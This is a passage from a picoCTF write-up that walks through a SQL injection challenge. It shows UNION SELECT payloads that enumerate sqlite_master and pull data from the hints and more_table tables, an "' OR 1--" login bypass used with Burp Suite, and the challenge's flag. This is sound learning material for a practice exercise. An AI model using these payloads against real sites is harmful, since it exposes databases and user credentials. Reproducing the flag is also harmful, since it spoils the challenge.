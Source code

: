 more_table	           1	        2
offices	               1	        2
users	                 1	        2
```

from this we can tell our SELECT name, 1, 2 is forcibly hiding the stuff :'( so we need to reformat our command to be able to see the column items as well 

After further research SQL refers to a sql column that holds the SQL statements used to create objects (tables, views, etc.) in the database.
so we can use 'UNION SELECT name,SQL,SQL FROM sqlite_master WHERE type='table'--

from this we can then see 

``CREATE TABLE hints (id INTEGER NOT NULL PRIMARY KEY, info TEXT)``

``CREATE TABLE more_table (id INTEGER NOT NULL PRIMARY KEY, flag TEXT)``

``CREATE TABLE offices (id INTEGER NOT NULL PRIMARY KEY, city TEXT, address TEXT, phone TEXT)]``

``CREATE TABLE users (name TEXT NOT NULL PRIMARY KEY, password TEXT, id INTEGER)``

<img width="491" alt="image" src="https://github.com/user-attachments/assets/60f5db04-9c2a-4c9c-84c3-67e7e90f153a">

Now that we know a hints table exists and what is being used to create it we can use an injection statement to find what is running it.

CREATE TABLE hints (id INTEGER NOT NULL PRIMARY KEY, info TEXT)

so we can see there are 2 attributes namely id, info.

``' UNION SELECT id,info,2 from hints--``

we end up seeing this 

![image](https://github.com/user-attachments/assets/217a1f1d-6a58-436b-88f5-c8cc4dfac1f3)

from here i can assume we have to directly select it from the more_table as it has an attribute called flag i cant believe I missed this 😢

we now make our command 

``' UNION SELECT id,flag,2 from more_table--``

We can then see our flag :D finally bru

## Flag

> picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_c8b7cc2a}


### Alternative method after being told 😠

Use burp suite to intercept when u are logging in successfully with the ' OR 1-- we can send this request to the repeater which then prints the response with the html and some code above it containing the flag D: 

<img width="1277" alt="image" src="https://github.com/user-attachments/assets/8c8309bb-39f6-4279-bfb2-257de6b25d2c">


